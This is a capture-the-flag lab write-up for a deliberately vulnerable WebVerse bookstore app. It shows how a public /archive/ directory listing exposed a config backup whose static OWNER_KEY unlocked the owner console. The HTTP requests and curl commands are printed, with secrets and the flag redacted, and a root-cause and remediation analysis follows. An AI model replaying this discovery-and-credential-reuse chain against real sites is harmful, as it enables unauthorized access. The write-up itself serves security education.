> **Publication note:** This article documents an authorized educational lab reproduction. The current-instance flag is redacted as `WEBVERSE{REDACTED}`. Database credentials, WordPress authentication keys, the reusable `OWNER_KEY`, Cloudflare clearance values, and raw secret-bearing evidence are excluded from the public manuscript and image bundle.

## Executive Summary

Dust Jacket exposed an Apache directory index under `/archive/` that listed migration artefacts left inside the public document root. The directory README explicitly described the files as migration debris and stated that they should not be linked. The most sensitive artefact, `config.php.bak`, was a legacy WordPress configuration snapshot containing database credentials, authentication keys, and a static `OWNER_KEY` associated with the `/owner` console.

Caido established the current-instance request chain and the exact owner-console contract. A format-correct invalid key returned the restricted HTML form and an explicit validation error. Replaying the same `POST /owner.php` request with only the `owner_key` value changed to the key disclosed in `config.php.bak` returned `owner: verified` and the current-instance flag. A second Caido request and an independent `curl` differential reproduced the result without `Cookie` or `Authorization` headers.

> **Confirmed finding:** An unauthenticated user can retrieve a public configuration backup, extract a reusable static owner credential, and authenticate at the live owner verification endpoint. The directory listing is the discovery accelerator; public configuration disclosure and continued validity of the exposed `OWNER_KEY` create the confirmed security impact.

## Finding Snapshot

| Field | Value |
| --- | --- |
| Vulnerability | Public migration-backup disclosure leading to unauthorized owner-level authentication |
| Exposed directory | `GET /archive/` |
| Critical resource | `GET /archive/config.php.bak` |
| Authentication endpoint | `POST /owner.php` |
| Credential parameter | `owner_key` |
| Authentication state | No `Cookie` or `Authorization` header required; static `OWNER_KEY` only |
| Primary proof | Caido Replay invalid-versus-valid single-variable differential |
| Independent proof | `curl` reproduction with `Cookie` and `Authorization` explicitly absent |
| Primary classification | `CWE-219` - Storage of File with Sensitive Data Under Web Root |
| Supporting weaknesses | `CWE-548` - Directory Listing; `CWE-798` - Use of Hard-coded Credentials |
| OWASP categories | `A01:2025` - Broken Access Control; `A02:2025` - Security Misconfiguration |
| Result | Owner-level authentication and current-instance flag returned; public flag redacted |

## 1. Scope and Evidence Basis

Testing was limited to the active WebVerse Dust Jacket challenge instance at `41dae118-4414-dust-jacket-63832.challenges.webverselabs-pro.com`. The environment was deliberately vulnerable and authorized for educational testing. Fresh runtime evidence was collected on 29 July 2026; no expired hostname, historical cookie, previous response, or old flag was used as current proof.

### Scope Boundaries

- Read-only inspection of publicly accessible application and archive resources.
- One bounded invalid-key control and one intended valid-key proof against the owner console.
- No database login, WordPress session forgery, credential reuse, archive extraction, or unrelated application testing.
- Testing stopped immediately after owner verification and current-instance flag disclosure.

### Evidence Authority

Current Caido and `curl` artefacts are authoritative for the active host, routes, request contract, authentication state, response semantics, and final result. Historical solution notes were used only to preserve the known static chain and reduce unnecessary rediscovery.

> **Original discovery context:** During the original solve, focused ffuf content discovery identified `/archive` after manual Apache metadata checks were inconclusive. This fresh reproduction did not repeat broad enumeration; it directly validated the known route and rebuilt the complete claim-to-evidence chain in Caido.

## 2. Application and Attack-Chain Overview

The public application presented a normal PHP bookstore storefront behind Cloudflare. The decisive issue was not in the visible shopping flow. It was the coexistence of the current storefront and legacy migration material under the same public web root.

```text
Public Dust Jacket storefront
  -> GET /archive returns a canonical-directory redirect
  -> GET /archive/ exposes an Apache directory index
  -> README.txt confirms unintended migration debris
  -> config.php.bak exposes DB credentials, WordPress keys, and OWNER_KEY
  -> source comment maps OWNER_KEY to /owner
  -> GET /owner reveals POST /owner.php and owner_key
  -> invalid owner_key returns explicit validation failure
  -> leaked OWNER_KEY returns owner: verified
  -> current-instance flag is disclosed
```

The evidence was collected in this order so that each claim remained narrower than, and fully supported by, the artefact immediately following it.

## 3. Current-Instance Baseline

A normal browser navigation to the root path was captured in Caido before any route mutation. This established the active host, method, request context, and normal application identity.

```http
GET / HTTP/1.1
Host: 41dae118-4414-dust-jacket-63832.challenges.webverselabs-pro.com
```



*Figure 1 — Caido baseline request confirming the active Dust Jacket host and initial GET / navigation.*

The server returned `HTTP 200` with `text/html` content, `X-Powered-By`: `PHP/8.2.31`, and HTML identifying Dust Jacket Books. This bound all later archive, owner-console, and flag evidence to the same fresh instance.

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
X-Powered-By: PHP/8.2.31

<title>Dust Jacket Books - Independent bookseller co-op, Asheville NC</title>
```



*Figure 2 — Root response identifying the current Dust Jacket storefront and PHP application baseline.*

> **Baseline conclusion:** The active application and hostname were confirmed directly from fresh traffic before any known solution route was reproduced.

## 4. Canonical Archive Route

The known archive candidate was tested by copying the clean root request into Caido Replay and changing only the path from / to `/archive`. The response was a permanent redirect to the trailing-slash directory form.

```http
GET /archive HTTP/1.1
Host: 41dae118-4414-dust-jacket-63832.challenges.webverselabs-pro.com

HTTP/1.1 301 Moved Permanently
Location: http://41dae118-4414-dust-jacket-63832.challenges.webverselabs-pro.com/archive/
```



*Figure 3 — Caido response confirming that /archive is recognized as a directory and canonicalized to /archive/.*

The Location header used http while the HTML link referenced https. The differing schemes are consistent with reverse-proxy or origin scheme handling; the exact cause was not established and was not required to validate the finding. The meaningful security signal was narrower: Apache recognized `/archive` as a real directory. A redirect alone did not prove sensitive content exposure.

## 5. Public Directory Listing and Migration Debris

The canonical path `/archive/` was requested directly. Apache returned `HTTP 200` and an auto-index page titled Index of `/archive`. The listing exposed the complete migration-file inventory.

```http
GET /archive/ HTTP/1.1

HTTP/1.1 200 OK
<title>Index of /archive</title>

README.txt
config.php.bak
inventory-export-2024-10.csv.bak
site.zip.old
```



*Figure 4 — Apache directory index exposing the complete archive inventory, including config.php.bak and site.zip.old.*

> **Discovery result:** The directory listing proved unauthenticated file enumeration. It did not yet prove that any listed file contained sensitive or currently useful information.

### 5.1 README Migration Context

`README.txt` was small, publicly accessible, and reviewed in full. It explicitly described the directory as migration debris, stated that it should not be linked, and documented that its contents were scheduled for removal after reconciliation.

```text
Migration debris - DO NOT LINK.

This directory holds snapshots taken during the BigCommerce migration...
everything in here should be torn down...

- config.php.bak        legacy WP config (pre-migration)
- inventory-export...  October stock snapshot
- site.zip.old         full file backup; do not unpack on the live box
```



*Figure 5 — Public README confirming that the archive contains unintended migration snapshots and should not be linked.*

> **Exposure context:** The application itself documented that the directory was temporary migration material rather than an intentional public download area.

## 6. Sensitive Configuration Disclosure

The critical listed artefact, `config.php.bak`, was retrieved without authentication. The response contained a legacy WordPress configuration snapshot with database connection values, WordPress authentication keys, and a static owner-console key. Reusable secret values are raster-redacted in the figure and represented symbolically below.

```php
GET /archive/config.php.bak HTTP/1.1

HTTP/1.1 200 OK
Content-Type: application/x-trash

define('DB_PASSWORD', '<REDACTED>');
define('AUTH_KEY', '<REDACTED>');
define('SECURE_AUTH_KEY', '<REDACTED>');
define('LOGGED_IN_KEY', '<REDACTED>');
define('NONCE_KEY', '<REDACTED>');

// Co-op owner console key (used by /owner)
define('OWNER_KEY', '<REDACTED_OWNER_KEY>');
```



*Figure 6 — Public config.php.bak response exposing redacted database and WordPress secrets plus the OWNER_KEY-to-/owner mapping.*

The source comment established two precise facts: the exposed credential name was `OWNER_KEY`, and its intended consumer was `/owner`. At this point the credential was source-confirmed but not yet proven active.

> **Critical source-level signal:** A credential appearing in a backup does not prove current exploitability. The next steps independently mapped the live consumer and established an invalid-versus-valid runtime differential.

## 7. Owner-Console Request Contract

A direct GET request to `/owner` returned the current owner-console login form. The HTML established the exact transport slot required to test the exposed key.

```http
GET /owner HTTP/1.1

HTTP/1.1 200 OK
<title>Owner console - Dust Jacket Books</title>

<form class="owner-form" method="post" action="/owner.php">
  <input type="text" name="owner_key" autocomplete="off">
</form>
```



*Figure 7 — Live owner-console HTML defining POST /owner.php and the owner_key form parameter.*

| Field | Value |
| --- | --- |
| Method | POST |
| Endpoint | `/owner.php` |
| Content type | `application/x-www-form-urlencoded` |
| Body field | `owner_key` |
| Negative oracle | Restricted HTML form plus explicit validation error |
| Positive oracle | `text/plain` response containing `owner: verified` and `build-flag` |

## 8. Controlled Invalid-Key Baseline

The legitimate form was submitted once with a format-correct but invalid value. Capturing the browser-generated request in Caido confirmed the real `Content-Type` and body encoding before any use of the exposed credential.

```http
POST /owner.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

owner_key=OWN-0000-0000-0000
```



*Figure 8 — Browser-generated invalid-key POST request confirming the exact form-urlencoded contract.*

The server returned `HTTP 200`, but the response remained the restricted owner form and added an explicit validation error. This established that status alone was not the authentication oracle.

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8

Restricted. Enter the owner key on file with the bookkeeper.
That key didn't validate. Try again or contact the bookkeeper.
```



*Figure 9 — Negative-control response retaining the restricted form and explicitly rejecting the invalid key.*

> **Negative-control interpretation:** `HTTP 200` was shared by both rejected and accepted requests. Authentication success had to be determined from response semantics and `Content-Type`, not status code.

## 9. Active Credential Validation and Owner Verification

The invalid request was copied into Replay. Only the `owner_key` value was changed to the value disclosed in `config.php.bak`. `Cookie` and `Authorization` headers were removed so that the proof isolated the static key from browser-session state.

```http
POST /owner.php HTTP/1.1
Host: 41dae118-4414-dust-jacket-63832.challenges.webverselabs-pro.com
Content-Type: application/x-www-form-urlencoded

[No Cookie header]
[No Authorization header]
owner_key=<REDACTED_OWNER_KEY>
```



*Figure 10 — Cookie-less and authorization-less Caido Replay request using only the redacted OWNER_KEY.*

The server returned a materially different response: `text/plain` content, explicit owner verification, and the current-instance flag. Method, endpoint, Host, `Content-Type`, and body field were unchanged; the credential value was the decisive variable.

```http
HTTP/1.1 200 OK
Content-Type: text/plain; charset=UTF-8

owner: verified
build-flag: WEBVERSE{REDACTED}
```



*Figure 11 — Server-side owner verification and the redacted current-instance flag returned for the leaked key.*

> **Confirmed credential compromise:** The `OWNER_KEY` retained in the public legacy configuration was accepted by the live owner console without `Cookie` or `Authorization`. This converts a source disclosure into confirmed unauthorized owner-level authentication at the verification endpoint.

## 10. Independent curl Reproduction

A separate `curl` workflow reproduced the differential outside both the browser and Caido interface. The command explicitly suppressed `Cookie` and `Authorization` headers, submitted the same invalid and valid form bodies, redacted the flag before public display, and preserved private raw responses separately.

```bash
curl -sS -i \
  -H 'Cookie:' \
  -H 'Authorization:' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'owner_key=OWN-0000-0000-0000' \
  "$BASE/owner.php"

curl -sS -i \
  -H 'Cookie:' \
  -H 'Authorization:' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode "owner_key=$OWNER_KEY" \
  "$BASE/owner.php"
```



*Figure 12 — Independent curl verification: invalid key rejected, leaked key accepted, and no Cookie or Authorization headers used.*

The public-safe evidence file recorded the invalid response as `text/html` with a validation error and the valid response as `text/plain` with `owner: verified` and `WEBVERSE{REDACTED}`. This independently confirmed that the Caido result was not a display artefact or a browser-session side effect.

> **Public evidence handling:** The script itself contained the live `OWNER_KEY` and private raw output contained the full current-instance flag. Those artefacts remain private and are not embedded in this document.

## 11. Technical Root Cause and Classification

The directory index made the migration files easy to enumerate, but indexing alone was not the complete vulnerability. The confirmed chain required four security failures: sensitive artefacts were deployed under the public document root, backup extensions were served directly, reusable secrets remained embedded in a legacy configuration snapshot, and the same static `OWNER_KEY` was still trusted by the current owner console.

| Layer | Observed Role | Security Meaning |
| --- | --- | --- |
| Discovery enabler | Apache auto-index exposed `/archive/` file names. | Converted one route into a complete public inventory. |
| Deployment failure | Migration snapshots remained in the live web root. | Made internal and sensitive files externally retrievable. |
| Secret-management failure | Database, WordPress, and `OWNER_KEY` values remained in `config.php.bak`. | Exposed reusable credentials and authentication material. |
| Authentication design | The owner console trusted a static shared key. | A single leaked value was sufficient for privileged verification. |
| Confirmed consequence | The leaked `OWNER_KEY` returned `owner: verified` and the flag. | Proved current exploitability rather than historical exposure only. |

```text
Observed vulnerable flow:
request -> public /archive/config.php.bak -> extract OWNER_KEY -> POST /owner.php -> owner verified

Required control flow:
deployment pipeline -> reject sensitive artefacts -> secrets manager -> named user authentication -> authorization -> owner resource
```

> **Security boundary:** A hidden or unlinked file is not protected. Static client knowledge, source comments, and obscurity cannot replace web-root hygiene, secret rotation, and server-side identity-based authorization.

**Classification references:** [CWE-219](https://cwe.mitre.org/data/definitions/219.html)  |  [CWE-548](https://cwe.mitre.org/data/definitions/548.html)  |  [CWE-798](https://cwe.mitre.org/data/definitions/798.html)  |  [A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)  |  [A02:2025](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/)

## 12. Evidence Interpretation and False-Positive Controls

| Control | What It Proved | What It Did Not Prove |
| --- | --- | --- |
| `/archive` redirect | Apache recognized a real directory path. | It did not prove that directory contents were accessible. |
